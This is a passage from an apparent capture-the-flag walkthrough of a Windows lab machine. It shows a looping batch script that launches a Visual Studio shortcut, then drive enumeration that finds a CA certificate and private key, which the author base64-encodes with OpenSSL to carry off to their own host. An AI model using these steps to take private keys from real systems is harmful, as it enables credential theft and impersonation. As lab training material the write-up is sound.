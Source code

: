 

    C:\Users\jorge\Documents>type open-program.bat
    @echo off

    :loop

    echo opening program

    PING localhost -n 5 >NUL

    START /MIN "" cmd /c "C:\Users\Public\Desktop\Shortcuts\Visual Studio 2017.lnk" && PING localhost -n 5 >NUL && copy /Y "C:\Users\jorge\Documents\Visual Studio 2017.lnk" "C:\Users\Public\Desktop\Shortcuts\Visual Studio 2017.lnk" && PING localhost -n 50 >NUL && taskkill /F /IM devenv.exe

    cls

    GOTO loop



## Shell as rupal

### Enumeration

If I look at the drives on the host, I can see a new one:



    C:\Users\jorge\Documents>fsutil fsinfo drives

    Drives: C:\ D:\ 



Going into `D:\`, I'll see a `D:\Certs` directory:



    D:\Certs>dir
     Volume in drive D is Development
     Volume Serial Number is 54E5-37D1

     Directory of D:\Certs

    07/07/2018  09:50 PM    <DIR>          .
    07/07/2018  09:50 PM    <DIR>          ..
    07/01/2018  09:26 PM               772 MyCA.cer
    07/01/2018  09:26 PM             1,196 MyCA.pvk
                   2 File(s)          1,968 bytes
                   2 Dir(s)   8,437,514,240 bytes free



I'll base64 encode these with the following two commands:



    c:\progra~2\OpenSSL-v1.1.0\bin\openssl base64 -e -in d:\certs\myca.cer
    c:\progra~2\OpenSSL-v1.1.0\bin\openssl base64 -e -in d:\certs\myca.pvk



Then I can copy each back to my host, and decode with `base64 -d`.

